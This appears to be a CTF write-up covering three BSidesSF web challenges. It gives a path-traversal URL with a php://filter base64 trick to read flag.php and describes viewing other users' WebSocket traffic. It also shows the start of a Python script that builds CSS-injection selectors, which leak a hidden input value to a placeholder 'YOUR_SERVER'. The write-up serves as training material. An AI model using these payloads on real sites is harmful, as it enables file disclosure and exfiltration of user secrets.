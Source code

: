 There may be a path traversal vulnerability here. However, the category query seems to have a restriction that it must contain `woofers` or `meowers`.

So we can include `flag.php` by this URL: `https://had-a-bad-day-5b3328ad.challenges.bsidessf.net/index.php?category=woofers/../flag`.

However, we can't figure out what is written in `flag.php` because the contents of this fire is evaluated by PHP.

You can read the contents of that by using `php://filter` like this: `https://had-a-bad-day-5b3328ad.challenges.bsidessf.net/index.php?category=php://filter/convert.base64-encode/resource=woofers/../flag`.

You can get the base64 encoded `flag.php`, just decode it.

FLAG: `CTF{happiness_needs_no_filters}`


# [Web / 52pts] simple-todos
The challenge's target is a simple todo application using WebSocket by using this [material](https://www.meteor.com/tutorials/blaze/templates).

[f:id:Szarny:20200225133110p:plain]

Due to insufficient authority processing, you can also view WebSocket communications that are not related to your account.

Therefore, you can easily get the FLAG by observing communication (For example, by using DevTools Network pain).

FLAG: `CTF{meteor_js_does_san_francisco}`

# [Web / 138pts] fun-with-flags
After registration and login process, we can see the message send/receive functions.

[f:id:Szarny:20200225133122p:plain]

we can find the following input tag where the Flag would be inserted in the target user.

```
<input type="hidden" name="flag" value=Try reading this value>
```

Under the `Message` form, a suspicious message is written.

> Express your style

So, I described a style tag in `Message` form and I confirmed that it was effective.

Therefore, we reverage the CSS Injection technique for this challenge that I introduced in a previous article (<a href="https://szarny.hatenablog.com/entry/2019/10/17/CSS_Injection_%28%2B_Recursive_Import%29_%E3%81%AE%E5%8E%9F%E7%90%86%E3%81%A8%E6%94%BB%E6%92%83%E6%89%8B%E6%B3%95%E3%81%8A%E3%82%88%E3%81%B3%E3%81%9D%E3%81%AE%E5%AE%9F%E8%A3%85%E3%81%AB%E3%81%A4%E3%81%84?_ga=2.77390229.1426577989.1582604975-910459996.1580959459">Link</a>).

The sample script used to create the attack vector is as follows.

```python
import sys
import pyperclip

URL: str = "YOUR_SERVER"

def generate_attack_vector(known_secret: str) -> str:
    attack_vector_tmpl: str = """
        input[value^='{known_secret}{try_secret}']{{
            background: url('{url}?secret={known_secret}{try_secret}')
        }}"""

    attack_vector: str = ""
```